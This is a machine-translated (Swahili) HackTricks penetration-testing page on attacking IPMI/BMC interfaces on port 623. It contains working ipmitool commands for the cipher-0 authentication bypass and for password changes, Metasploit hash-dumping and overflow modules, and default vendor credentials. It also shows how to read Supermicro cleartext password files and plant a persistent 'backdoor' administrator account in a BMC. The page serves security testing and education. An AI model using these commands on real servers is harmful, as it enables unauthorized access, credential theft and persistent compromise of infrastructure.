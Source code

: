 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** inatoa njia iliyoimarishwa ya usimamizi wa mbali na ufuatiliaji wa mifumo ya kompyuta, bila kujali mfumo wa uendeshaji au hali ya nguvu. Teknolojia hii inawawezesha wasimamizi wa mifumo kusimamia mifumo kwa mbali, hata wakati zimezimwa au hazijajibu, na ni muhimu hasa kwa:

- Mipangilio ya awali ya OS
- Usimamizi wa kuzima nguvu
- Kupona kutoka kwa kushindwa kwa mfumo

IPMI ina uwezo wa kufuatilia joto, voltages, kasi za mashabiki, na vyanzo vya nguvu, pamoja na kutoa taarifa za hesabu, kupitia kumbukumbu za vifaa, na kutuma arifa kupitia SNMP. Muhimu kwa uendeshaji wake ni chanzo cha nguvu na muunganisho wa LAN.

Tangu ilipoanzishwa na Intel mwaka 1998, IPMI imeungwa mkono na wauzaji wengi, ikiongeza uwezo wa usimamizi wa mbali, hasa na msaada wa toleo la 2.0 kwa serial juu ya LAN. Vipengele muhimu ni pamoja na:

- **Baseboard Management Controller (BMC):** Kichakataji kikuu cha IPMI.
- **Communication Buses and Interfaces:** Kwa mawasiliano ya ndani na nje, ikiwa ni pamoja na ICMB, IPMB, na interfaces mbalimbali za muunganisho wa ndani na mtandao.
- **IPMI Memory:** Kwa kuhifadhi kumbukumbu na data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (Kawaida iko kwenye UDP lakini inaweza pia kuwa inafanya kazi kwenye TCP)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Unaweza **kubaini** **toleo** ukitumia:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

Katika eneo la IPMI 2.0, kasoro kubwa ya usalama iligunduliwa na Dan Farmer, ikifunua udhaifu kupitia **cipher type 0**. Udhaifu huu, ulioandikwa kwa undani katika [utafiti wa Dan Farmer](http://fish2.com/ipmi/cipherzero.html), unaruhusu ufikiaji usioidhinishwa kwa kutumia nenosiri lolote ikiwa mtumiaji halali anashambuliwa. Udhaifu huu ulipatikana katika BMC mbalimbali kutoka kwa watengenezaji kama HP, Dell, na Supermicro, ukionyesha tatizo lililoenea katika utekelezaji wote wa IPMI 2.0.

### **IPMI Authentication Bypass via Cipher 0**

Ili kugundua kasoro hii, skana ya ziada ya Metasploit ifuatayo inaweza kutumika:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Utekelezaji wa kasoro hii unaweza kufanywa kwa kutumia `ipmitool`, kama inavyoonyeshwa hapa chini, ikiruhusu orodha na mabadiliko ya nywila za watumiaji:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Uthibitisho wa Ujumbe wa Mbali wa Nywila ya Hash**

Ushirikiano huu unaruhusu upatikanaji wa nywila za hash zilizotiwa chumvi (MD5 na SHA1) kwa jina lolote lililopo. Ili kujaribu ushirikiano huu, Metasploit inatoa moduli:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Mkonfigu wa kawaida katika BMC nyingi unaruhusu ufikiaji wa "anonymous", unaojulikana kwa nywila na jina la mtumiaji zisizo na thamani. Mkonfigu huu unaweza kutumiwa kubadilisha nywila za akaunti za watumiaji waliopewa jina kwa kutumia `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Clear-text Passwords**

Chaguo muhimu katika muundo wa IPMI 2.0 kinahitaji uhifadhi wa nywila za wazi ndani ya BMCs kwa madhumuni ya uthibitishaji. Uhifadhi wa nywila hizi na Supermicro katika maeneo kama `/nv/PSBlock` au `/nv/PSStore` kunaibua wasiwasi mkubwa wa usalama:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Uthibitisho wa Usalama**

Kuongezwa kwa msikilizaji wa UPnP SSDP katika firmware ya IPMI ya Supermicro, hasa kwenye bandari ya UDP 1900, kunaingiza hatari kubwa ya usalama. Uthibitisho katika Intel SDK kwa ajili ya vifaa vya UPnP toleo 1.3.1, kama ilivyoelezwa na [kufichuliwa kwa Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), kunawezesha ufikiaji wa mizizi kwa BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP inabadilisha nenosiri la default** kwa bidhaa yake ya **Integrated Lights Out (iLO)** wakati wa utengenezaji. Praktika hii inatofautiana na wazalishaji wengine, ambao mara nyingi hutumia **akili za default zisizobadilika**. Muhtasari wa majina ya watumiaji na nenosiri za default kwa bidhaa mbalimbali unapatikana kama ifuatavyo:

- **HP Integrated Lights Out (iLO)** inatumia **mfuatano wa herufi 8 ulioandaliwa kiwandani** kama nenosiri lake la default, ikionyesha kiwango cha juu cha usalama.
- Bidhaa kama **iDRAC ya Dell, IMM ya IBM**, na **Meneja wa Usimamizi wa Kijijini wa Fujitsu** zinatumia nenosiri rahisi kubashiri kama "calvin", "PASSW0RD" (ikiwa na sifuri), na "admin" mtawalia.
- Vivyo hivyo, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, na **ASUS iKVM BMC** pia zinatumia akili rahisi za default, ambapo "ADMIN", "changeme", na "admin" zinatumika kama nenosiri zao.

## Accessing the Host via BMC

Upatikanaji wa kiutawala kwa Msimamizi wa Bodi ya Msingi (BMC) unafungua njia mbalimbali za kufikia mfumo wa uendeshaji wa mwenyeji. Njia rahisi ni kutumia kazi ya Kivinjari, Video, Panya (KVM) ya BMC. Hii inaweza kufanywa kwa kuanzisha upya mwenyeji hadi kwenye shell ya root kupitia GRUB (ukitumia `init=/bin/sh`) au kuanzisha kutoka kwa CD-ROM ya virtual iliyowekwa kama diski ya kuokoa. Njia hizi zinaruhusu kudhibiti moja kwa moja diski ya mwenyeji, ikiwa ni pamoja na kuingiza backdoors, kutoa data, au hatua zozote zinazohitajika kwa tathmini ya usalama. Hata hivyo, hii inahitaji kuanzisha upya mwenyeji, ambayo ni hasara kubwa. Bila kuanzisha upya, kufikia mwenyeji anayekimbia ni ngumu zaidi na inategemea usanidi wa mwenyeji. Ikiwa console ya kimwili au serial ya mwenyeji inaendelea kuingia, inaweza kuchukuliwa kwa urahisi kupitia kazi za KVM za BMC au serial-over-LAN (sol) kupitia `ipmitool`. Kuchunguza matumizi ya rasilimali za vifaa vilivyoshirikiwa, kama vile basi ya i2c na chip ya Super I/O, ni eneo linalohitaji uchunguzi zaidi.

## Introducing Backdoors into BMC from the Host

Baada ya kuathiri mwenyeji aliye na BMC, **kiolesura cha BMC cha ndani kinaweza kutumika kuingiza akaunti ya mtumiaji ya backdoor**, kuunda uwepo wa kudumu kwenye seva. Shambulio hili linahitaji uwepo wa **`ipmitool`** kwenye mwenyeji aliyeathiriwa na kuanzishwa kwa msaada wa dereva wa BMC. Amri zifuatazo zinaonyesha jinsi akaunti mpya ya mtumiaji inaweza kuingizwa kwenye BMC kwa kutumia kiolesura cha ndani cha mwenyeji, ambacho kinapita hitaji la uthibitisho. Mbinu hii inatumika kwa mifumo mbalimbali ya uendeshaji ikiwa ni pamoja na Linux, Windows, BSD, na hata DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
